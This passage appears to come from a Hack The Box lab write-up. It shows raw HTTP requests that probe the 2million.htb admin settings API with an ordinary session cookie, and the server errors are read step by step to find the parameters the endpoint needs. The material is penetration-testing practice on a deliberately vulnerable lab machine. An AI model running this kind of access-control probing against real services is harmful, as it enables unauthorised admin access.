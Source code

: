 ```html

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 May 2025 18:50:36 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 53

{"status":"danger","message":"Invalid content type."}

```
> `Invalid content type.`

> adding `Content-Type` header for correct PUT request:

```http

PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/login
Content-Type: application/json
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

> Response:

```http

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 May 2025 18:51:47 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 56

{"status":"danger","message":"Missing parameter: email"}

```
> `Missing parameter: email`
